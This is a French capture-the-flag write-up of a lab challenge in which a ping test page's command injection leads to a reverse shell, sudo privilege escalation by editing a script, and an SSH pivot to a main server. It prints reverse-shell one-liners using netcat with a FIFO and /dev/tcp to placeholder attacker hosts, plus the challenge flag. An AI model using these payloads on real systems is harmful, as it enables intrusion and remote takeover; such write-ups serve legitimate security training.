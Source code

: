 # Campagne d'influence

> La société nationale des transports listembourgeois nous a contacté, l'intégralité de leurs panneaux
publicitaires on été piratés et ils ne savent pas comment ! Ils avaient pourtant bien sécurisé leur serveur principal avec une connexion SSH robuste.
Tentez de reproduire l'attaque menée par la blackout society, tout ce que vous a fournis la SNTL, c'est ce endpoint de panneau publicitaire : https://esaipctf:8080



## Reconnaissance

En se connectant au challenge, on tombe sur cette page qui semble être notre panneau publicitaire :

![](./main_pannel.png)

On regarde un peut les autres ports qui nous ont été attribués et on arrive sur cette page :

![](./ping_test.png)

C'est un service de test de disponibilité, ici la première chose qu'on peut tenter c'est de ping avec une injection de commande, le retour de la commande devrait s'afficher sur la page

![](./injected.png)

Bingo ! Notre application est bien vulnérable à l'injection de commande, maintenant il est l'heure de crafter un petit payload qui va bien pour avoir un shell.

## Revshell

On se rend sur notre service de génération de shell préféré (dans mon cas https://www.revshells.com/) et on prépare sa payload : 

```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <MON_IP> <MON_PORT> >/tmp/f
```

![](./RCE.png)

Ensuite je setup mon listener sur mon VPS, NGROK, ou tout autre machine que le service de ping peut atteindre : 

```bash
nc -lvnp 4444
```

![](./shell.png)

Nous avons un premier shell.

## Privesc

En qualité de joueur de CTF invétéré, notre premier réflexe quand on arrive sur un système est de vérifier tout vecteur d'élévation de privilège simple, c'est ce que nous allons tester ici : 

```bash
sudo -l
```

Ici l'option "-l" (pour list) va nous permettre de vérifier si nous pouvons exécuter un script ou un binaire en tant que sudo.

![](./sudo.png)

Comme prévu, il y a bien un script exécutable en tant que sudo, rendons nous dans le répertoire qui contient ce script.

![](./scripts.png)

On y trouve deux scripts, f.sh et run.sh, intéressons nous à run.sh : 

```bash
#!/bin/bash

echo "Starting the media pull and forward process..."

/bin/bash /scripts/f.sh

echo "Media processing completed."
```
Ce script est uniquement là pour appeler f.sh, qui lui semble contenir la vraie fonctionnalité, allons donc voir :

```bash
#!/bin/bash

MEDIA_DIR="/app/tempmedia"
mkdir -p ${MEDIA_DIR}

MAIN_SERVER="root@main-server"
REMOTE_MEDIA_PATH="/usr/src/app/media/*"

SSH_KEY="/root/.ssh/id_rsa"

scp -i ${SSH_KEY} -P 22 -o StrictHostKeyChecking=no ${MAIN_SERVER}:${REMOTE_MEDIA_PATH} ${MEDIA_DIR}/
```

Ce script se connecte au serveur principal pour aller chercher un média à l'aide d'une clé SSH contenue dans ```/root/.ssh```, si nous avons la possibilité d'injecter du code dans un des deux scripts nous pourrions avoir un shell root étant donné que l'on peut exécuter run.sh en sudo et que run.sh fait appel à f.sh.

![](./check_priv.png)

En vérifiant les droits des fichiers on voit que l'utilisateurs a le droit d'édition sur f.sh, c'est parfait pour nous ! 

On va pouvoir injecter un deuxième shell, en utilisant bash cette fois : 

```bash
sh -i >& /dev/tcp/<MON_IP>/<MON_PORT> 0>&1
```

Pour l'injecter dans mon f.sh, on fait un echo append : 

![](./append.png)

Ensuite plus qu'à exécuter run.sh en sudo et boom on est root :)

![](./root.png)

## Pivoting

Bon on est root, maintenant que faire ? Dans f.sh ça parlait de ssh et de main-server, il serait judicieux d'aller vérifier le contenu de /root/.ssh.

![](./ssh_known.png)

On a un fichier known_hosts qui peut potentiellement nous conduire au serveur principal.

![](./known.png)

On a une IP ! On va pouvoir tenter de s'y connecter : 

![](./main_serv.png)

Nous voici sur le server principal en root qui plus est !

Il ne nous reste plus qu'a récupérer notre flag à et récupérer notre indice pour désamorcer la bombe :D

![](./main_serv.png)

```FLAG : ECTF{b3w4r3_0f_p4ss1ng_tr41n}```
